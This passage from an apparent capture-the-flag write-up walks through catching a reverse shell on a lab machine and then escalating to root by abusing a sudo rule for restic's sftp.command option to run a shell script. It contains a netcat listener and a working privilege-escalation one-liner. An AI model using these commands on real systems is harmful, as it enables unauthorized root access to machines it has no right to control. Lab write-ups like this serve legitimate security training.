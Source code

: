 ```
bolt@bolt:~$ nc -lvnp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from 127.0.0.1 60286 received!
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Privilege escalation

More sudo privileges! This is probably the way to get root access. I need to abuse the restic backup system to get RCE as root.

```
$ sudo -l
Matching Defaults entries for www-data on bolt:
    env_reset, exempt_group=sudo, mail_badpass, secure_path=/usr/local/sbin\:[...]

User www-data may run the following commands on bolt:
    (root) NOPASSWD: /usr/bin/restic backup -r rest*
```

## Unintended method

We can pass special parameters to the restic backup application to specify how we want to establish the SSH connection for remote backups. By abusing this parameter we can effectively run any command we want as root. In this case I'll just call another reverse shell back to me and gain root access.

`sudo /usr/bin/restic backup -r rest/ -r sftp:bolt@127.0.0.1:/var/tmp/xyz -o sftp.command="/tmp/shell.sh" /root/root.txt`

